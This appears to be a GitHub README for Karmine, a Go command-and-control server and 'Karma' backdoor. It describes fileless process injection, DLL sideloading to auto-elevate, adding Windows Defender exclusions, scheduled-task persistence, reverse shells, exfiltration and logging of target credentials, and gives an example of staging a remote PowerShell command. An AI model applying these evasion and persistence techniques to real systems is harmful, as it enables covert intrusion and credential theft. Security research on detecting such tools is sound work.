 # Karmine

Karmine is a C2 server written in Go. It handles requests from a bot/backdoor ('Karma'), which has built-in dropping, exfiltration and AV evasion features. All communication happens over mTLS, with transferred objects AES-encrypted to avoid detection. Karma instances are run entirely in memory via [Process Injection](https://github.com/pygrum/karmine/tree/main/karl/runpe).

## Why?

I built this as part of independent research into malware detection evasion techniques. Some of the simpler techniques are included in the beacon ('Karma') of this project:
- Fileless execution: the final payload is embedded as an encrypted buffer into another program. It is then decrypted and injected into another process
- DLL sideloading: the custom DLL included in this project leverages a DLL sideloading 'vulnerability' in the trusted file `bthudtask.exe`, which auto-elevates to Admin. The DLL subsequently adds the 
current folder to the Windows Defender exclusion path, disables the cleaning of the temp folder, and creates a scheduled task for the payload to run each time the device restarts.
- As of release v0.1.0, there are no anti-analysis / sandboxing techniques built in.

## Features

- Instance profile tracking using JSON config files
- Encryption key and command storage using SQLite DB
- 2 methods of deployment - standard PE, or stealthy PE executed in memory
- mTLS encrypted communication between client and server
- Auto-escalation to root (stealthy PE)
- Load up dummy data of your choice upon execution (stealthy PE)
- Key strings are encrypted and embedded in PE
- Remote command execution module
- Reverse shell module
- AES-encrypted file transfer with AES module
- Strain UUID tracking

## Use cases

This project is versatile; with potential for use within CTFs, as well as real life testing situations, due to it's enhanced evasion abilities.
I do NOT condone and will NOT be responsible for the use of this software for malicious purposes. This software is intended for educational + legal use only.

## Setup 

Run `install.sh` in the project root. This will set up configuration files, the `bin`, a x509 certificate-key pair, and a database. You can replace these with your own by replacing the ones in `~/.kdots/` with files of the same name. 
The project depends on ncat for you to set up a listener using the SSL keys in your configuration folder. The ncat command to do so printed to the terminal after a reverse shell is requested, so you can paste and run it in a separate terminal window.

### Dependencies

- `ncat`

## Usage 

### Example

```
$  new karma --interval 3
'karma' saved to /home/pygrum/karmine/bin


$  profiles view

uuid                                 | name         | strain
------------------------------------------------------------
181d70e4-cbc6-4bfd-9e96-7ccb31dbbc27 | 3a89aee34882 | karma

$  stage cmd --for 3a89aee34882 exec "powershell -c whoami /priv"
$  % 3a89aee34882 %  127.0.0.1:1337 ---
INFO[1139] exec powershell -c whoami /priv               type=cmd
INFO[1139] 
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

The Karmine database logs all staged commands, active strains, and credentials from targets. In-built commands can be used to view this information.

### Commands

As of March 15 2023, there are 4 commands:
- `new`
- `profiles`
- `stage`
- `deploy`

To get usage info about these commands, type `<command> --help`
